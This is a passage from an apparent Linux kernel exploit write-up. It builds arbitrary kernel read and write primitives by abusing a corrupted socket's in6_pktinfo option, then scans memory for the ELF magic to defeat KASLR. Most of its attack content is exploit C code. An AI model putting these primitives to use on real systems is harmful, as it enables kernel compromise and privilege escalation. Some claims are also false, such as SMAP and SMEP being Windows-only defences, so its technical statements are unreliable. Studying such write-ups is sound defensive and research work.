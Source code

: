 ```c
static void write_to_victim(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  *(uint64_t *)(buf + 0x00) = addr;
  *(uint64_t *)(buf + 0x08) = 0;
  *(uint32_t *)(buf + 0x10) = 0;
  set_pktinfo(master_sock, buf);
}
```
```c
static uint8_t kread8(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  write_to_victim(addr);
  get_pktinfo(victim_sock, buf);
  return *(uint8_t *)buf;
}
```
And now, we can turn this quite simply to an arbitrary sized read:
```c
static void kread(void *dst, uint64_t src, size_t len) {
  for (int i = 0; i < len; i++)
    ((uint8_t *)dst)[i] = kread8(src + i);
}
```
### Arbitrary write
We can also use the same primitive for arbitrary kernel write: we can write an address `y` to our pktinfo buffer, and then call `setsockopt()` instead of `getsockopt()` to write to the same address.
```c
static int kwrite(uint64_t addr, void *buf) {
  write_to_victim(addr);
  return set_pktinfo(victim_sock, buf);
}
```
Now that we have both primitives lets get to defeating some kernel defenses.

### Defeating KASLR
**K**ernel **A**ddress **S**pace **L**ayout **R**andomization is a technique to make exploiting such vulnerabilities harder. Every time an executable (or the kernel in this case) loads, it's offset will be randomized. If there were static offsets (like in the pre-2006 linux) it would be easy to guess the address of some key data structures and corrupt them. This is aimed to prevent such things from happening. 
Thankfully, this is not Windows. Windows has a plethora of other defenses which are really hard to overcome like SMAP and SMEP. However in linux its relatively easier to exploit arbitrary write. 
Fortunately for us, the kernel base starts with an ELF header, and every ELF  header must have the `ELF_MAGIC` value set in the beginning, so we only need to scan the memory for `ELF_MAGIC` 
```c
static uint64_t find_kernel_base(uint64_t addr) {
  addr &= ~(PAGE_SIZE - 1);
  while (kread32(addr) != ELF_MAGIC)
    addr -= PAGE_SIZE;
  return addr;
}
```
Next, the process descriptor table is always at a fixed offset from the kernel base. So we  can walk the table until we reach our own process: this will help us leak the addresses to which some critical structures of the kernel have been mapped in our process
